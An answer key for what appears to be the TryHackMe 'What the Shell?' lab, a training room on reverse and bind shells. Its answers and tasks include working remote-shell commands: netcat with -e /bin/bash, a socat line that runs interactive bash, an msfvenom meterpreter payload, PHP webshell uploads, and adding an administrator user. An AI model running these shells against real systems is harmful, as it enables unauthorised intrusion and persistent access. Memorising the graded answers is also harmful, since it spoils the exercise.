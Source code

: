 # What the Shell?

- Read and understand the introduction.

	  no answer needed

- Read the above and check out the links!

	  no answer needed

- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

	- `R`

- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

	- `N`

- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

	- `T`

- Which option tells netcat to listen?

	- `-l`

- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	- `nc 10.10.10.11 8080`

- How would you change your terminal size to have 238 columns?

	- `stty cols 238`

- What is the syntax for setting up a Python3 webserver on port 80?

	- `sudo python3 -m http.server -p 80`

- How would we get socat to listen on TCP port 8080?

	- `TCP-L:8080`

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	- `socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0`

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	- `socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- What command can be used to create a named pipe in Linux?

	- `mkfifo`

- Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

	  no answer needed

- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

	  no answer needed

- Which symbol is used to show that a shell is stageless?

	- `_`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

	- `msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

- What command can be used to start a listener in the background?

	- `exploit -j`

- If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

	- `sessions 10`

- Read the WebShells information.

	  no answer needed

- Read the above information

	  no answer needed

- Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

	  no answer needed	

- Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

	  no answer needed

- Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

	  no answer needed

- Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

	  no answer needed

- Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.

	  no answer needed

- Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

	  no answer needed

- Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

	  no answer needed

- The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

	  no answer needed

- Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

	  no answer needed

- Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

	  no answer needed

- Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

	  no answer needed

- No Answer Required

	  no answer needed

- No answer required

	  no answer needed


